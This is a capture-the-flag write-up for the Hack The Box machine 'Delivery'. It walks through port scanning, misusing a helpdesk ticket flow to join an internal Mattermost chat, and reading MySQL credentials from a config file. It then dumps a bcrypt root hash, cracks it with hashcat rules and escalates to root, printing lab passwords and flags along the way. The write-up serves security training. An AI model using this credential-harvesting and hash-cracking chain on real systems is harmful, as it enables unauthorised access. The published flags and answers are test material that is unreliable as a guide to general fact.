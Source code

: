 # HTB: Delivery

## Engagement Overview

Target: Delivery    
Box IP: 10.10.10.222    
Date: 2025-09-27    
Attacker Host: 10.10.14.6

---

### Objectives

- Compromise internal chat system Matter Most.
- Extract credentials and artifacts from internal chat.
- Gain initial foothold via SSH.
- Find root hashes and crack with found artifacts.
- Escalate and capture `user.txt` and `root.txt`.

---

## Service Enumeration

### Nmap

```bash
sudo nmap -sC -sV -p- -oN logs/nmap.full 10.10.10.222
```

```bash
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    nginx 1.14.2
8065/tcp open  http    Golang net/http server
```

### Web Discovery

- Port 80 leads us to a linked vhost `helpdesk.delivery.htb`
- Cannot sign-up due to email limitations, but ticket creation/status is available with internal email generation:


![screenshot](assets/20250927-060311.png)

- Port 8065 leads to what looks like an internal chat system.
- Requires corp email activation to sign up and login, used miss configured support center ticket system.
- Access gained.

![screenshot](assets/20250927-063509.png)

- Given the information we'll be looking for user hashes and cracking with `PleaseSubscribe!`
- Credential found: `maildeliverer:Youve_G0t_Mail!`

---

## Initial Access

Ssh in as maildeliverer and retrieved flag:

```bash
maildeliverer@Delivery:~$ cat user.txt
bb350daf736a264d361f98d26e6b0e1a
```

Found mysql creds in matter most config.json:

```bash
"DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
```

## Privilege Escalation

### Abusing Saved Credential

```bash
maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -pCrack_The_MM_Admin_PW mattermost
```

```mysql
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 96
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [mattermost]> 
MariaDB [mattermost]> select * from Users;
---
MariaDB [mattermost]> select Username,Password from Users;

| root | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
```

Cracking hash:

```bash
cat hash.txt   
root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO

cat pass.list 
PleaseSubscribe!

# Cracking
hashcat -m 3200 hash.txt pass.list --user -r /usr/share/hashcat/rules/best64.rule

Candidates.#1....: PleaseSubscribe!21 -> PleaseSubscribe!21
```

Root:

```bash
maildeliverer@Delivery:/opt/mattermost/config$ su -
Password: 
root@Delivery:~# ls
mail.sh  note.txt  py-smtp.py  root.txt
root@Delivery:~# cat root.txt
48f92a09c818a0266078b0605cf942e7

# Cute note
root@Delivery:~# cat note.txt
I hope you enjoyed this box, the attack may seem silly but it demonstrates a pretty high risk vulnerability I've seen several times.  The inspiration for the box is here: 

- https://medium.com/intigriti/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c 

Keep on hacking! And please don't forget to subscribe to all the security streamers out there.

- ippsec
```

## House Cleaning

- No persistence or artifacts left on target.  

## Tools Utilized

- `nmap`, `ssh` `mysql`, `hashcat`

## Key Takeaways

- Mattermost (or similar chat systems) is a high-value target for credential harvesting when internal email activation or invite flows are misconfigured or leaking tokens.
- Web vhosts and helpdesk portals often contain useful disclosure (tickets, attachments) that can reveal internal usernames, email addresses, or temporary tokens.
- Always check for credential reuse between web apps, databases, and SSH.
